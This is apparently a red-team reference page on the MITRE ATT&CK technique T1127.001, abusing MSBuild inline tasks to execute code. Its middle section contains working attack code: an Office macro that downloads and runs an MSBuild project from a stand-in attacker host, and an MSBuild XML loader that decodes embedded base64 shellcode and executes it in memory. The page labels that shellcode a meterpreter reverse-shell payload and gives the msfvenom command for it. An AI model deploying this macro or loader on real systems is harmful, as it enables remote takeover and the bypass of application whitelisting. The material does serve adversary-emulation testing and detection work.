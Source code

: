 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# T1127.001 - MSBuild
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1127/001)

### Attacks
* MSBuild Bypass Using Inline Tasks (C#)
	* Overview
Executes the code in a project file using msbuild.exe. The default C# project example file (T1127.001.csproj) will simply print "Hello From a Code Fragment" and "Hello From a Class." to the screen.

```cmd
#{msbuildpath}\#{msbuildname} #{filename}
```

#### Dependencies:  Run with `powershell`!
##### Description: Project file must exist on disk at specified location (#{filename})
##### Check Prereq Commands:
```powershell
if (Test-Path #{filename}) {exit 0} else {exit 1} 
```

### Attacks
* MSBuild Bypass Using Inline Tasks (VB)
	* Overview
Executes the code in a project file using msbuild.exe. The default Visual Basic example file (vb.xml) will simply print "Hello from a Visual Basic inline task!" to the screen.

```cmd
#{msbuildpath}\#{msbuildname} #{filename}
```

#### Dependencies:  Run with `powershell`!
##### Description: Project file must exist on disk at specified location (#{filename})
##### Check Prereq Commands:
```powershell
if (Test-Path #{filename}) {exit 0} else {exit 1} 
```

# MSBuild Office Macro

## Download and execute from webdav server

```cmd
Shell "cmd /V /c ""set MB=""C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe"" & !MB! /noautoresponse /preprocess \\staging.attacker.com\webdav\blogpage.xls > payload.xml & !MB! payload.xml"""
```

## Download with XMLHTTP and execute
```
Sub DownloadFile()

    Dim myURL As String
    myURL = "https://staging.attacker.com/msbuild.xml"
    
    Dim WinHttpReq As Object
    Set WinHttpReq = CreateObject("Microsoft.XMLHTTP")
    WinHttpReq.Open "GET", myURL, False
    WinHttpReq.send
    
    myURL = WinHttpReq.responseBody
    If WinHttpReq.Status = 200 Then
        Set oStream = CreateObject("ADODB.Stream")
        oStream.Open
        oStream.Type = 1
        oStream.Write WinHttpReq.responseBody
        oStream.SaveToFile "C:\users\public\downloads\msbuild.xml", 2
        oStream.Close
    End If

End Sub

Public Function Debugging() As Variant

    DownloadFile
    Shell "C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\users\public\downloads\msbuild.xml"

End Function
```

## msbuild.xml (dxflatline)
- https://gist.github.com/dxflatline/99de0da360a13c565a00a1b07b34f5d1
```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
    <!-- Original work by https://gist.github.com/subTee -->
    <!-- Run like C:\Windows\Microsoft.NET\Framework\v4.0.30319>msbuild c:\temp\msbuild_sc_alloc.csproj -->
    <Target Name="Hello">
        <MeterExecute />
    </Target>
    
    <UsingTask TaskName="MeterExecute" TaskFactory="CodeTaskFactory" AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
        <ParameterGroup/>
        <Task>
            <Using Namespace="System" />
            <Using Namespace="System.Reflection" />
            <Code Type="Class" Language="cs">
                <![CDATA[
                
                using System;
                using System.IO;
                using Microsoft.Build.Framework;
                using Microsoft.Build.Utilities;
                using System.IO.Compression;
                using System.Runtime.InteropServices;
                using System.Threading;
                
                public class MeterExecute :  Task, ITask
                {
                    public override bool Execute()
                    {
                        IntPtr shellcodeProcessHandle = IntPtr.Zero;
                        // 
                        // CHANGE SHELLCODE HERE
                        // msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.25 LPORT=54321 -f raw 2>/dev/null | gzip | base64 -w 0
                        //
                        String ShellCode_B64 = "H4sIAGvZX1kAA/vzoomBgSGh86nhgZTuAIPuIJ7uIJHuIg3+7V5qhv/X2CTWMOkoHDzPy3j80aeg8O4ggW4vm24fwYrHHowXA7sjFRgvd3tKPLby7DbpZrwG1ABWavGg9Btz7Q/rWpXSJxHdESqMl9O6eby7I2SAqlm6GS90uqioREcnRkYF/n8QHx/VLfS6NzbD2IiBIaO82Cg+JMOnXI39/9UdExgZGDSPhARkaDZkM/y/msWacWAFo2QGE8MVw85nAUDgAIQZr/jvP/h/dXqWQFh4xsylJYn/r7YeKOH678dR+uZFItBvWQxZLEApppsn4v9fbf7BUGfWbZblkMEgwMAQlsWQEbEk+On/q5ODsxjCgpFU1SpFZDA4gHQHZHDr8xv8vxqeUZrnCzQ9Lu4/j8rLwv///zMe1jxWevzw7g9bFwFNCv5/FQCF4lpQTQEAAA==";
                        //
                        //
                        Console.WriteLine("Started shellcode execution..");
                        byte[] ShellCode_gzip = Convert.FromBase64String(ShellCode_B64);
                        byte[] ShellCode_c = Decompress(ShellCode_gzip);
                        shellcodeProcessHandle = exec_shellcode(ShellCode_c);
                        WaitForSingleObject(shellcodeProcessHandle, 0xFFFFFFFF);
                        Console.WriteLine("Ended shellcode execution..");
                        return true;
                    }
                    
                    static byte[] Decompress(byte[] data)
                    {
                        using (var compressedStream = new MemoryStream(data))
                        using (var zipStream = new GZipStream(compressedStream, CompressionMode.Decompress))
                        using (var resultStream = new MemoryStream())
                        {
                            zipStream.CopyTo(resultStream);
                            return resultStream.ToArray();
                        }
                    }
                    
                    private static IntPtr exec_shellcode(byte[] shellcode)
                    {
                        UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
                        Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
                        IntPtr hThread = IntPtr.Zero;
                        UInt32 threadId = 0;
                        IntPtr pinfo = IntPtr.Zero;
                        hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
                        return hThread;
                    }
                    private static UInt32 MEM_COMMIT = 0x1000;
                    private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
                    [DllImport("kernel32")]
                    private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
                     UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
                    [DllImport("kernel32")]
                    private static extern IntPtr CreateThread(
                        UInt32 lpThreadAttributes,
                        UInt32 dwStackSize,
                        UInt32 lpStartAddress,
                        IntPtr param,
                        UInt32 dwCreationFlags,
                        ref UInt32 lpThreadId
                    );
                    [DllImport("kernel32")]
                    private static extern UInt32 WaitForSingleObject(
                        IntPtr hHandle,
                        UInt32 dwMilliseconds
                    );
                }
                
                ]]>
            </Code>
        </Task>
    </UsingTask>
</Project>
```

* MSBuild Bypass Using Inline Tasks (C#)
	* Overview
		* Executes the code in a project file using msbuild.exe. The default C# project example file (T1127.001.csproj) will simply print "Hello From a Code Fragment" and "Hello From a Class." to the screen.
	* Commands

		```cmd
		#{msbuildpath}\#{msbuildname} #{filename}
		```

* MSBuild Bypass Using Inline Tasks (VB)
	* Overview
		* Executes the code in a project file using msbuild.exe. The default Visual Basic example file (vb.xml) will simply print "Hello from a Visual Basic inline task!" to the screen.
	* Command

		```cmd
		#{msbuildpath}\#{msbuildname} #{filename}
		```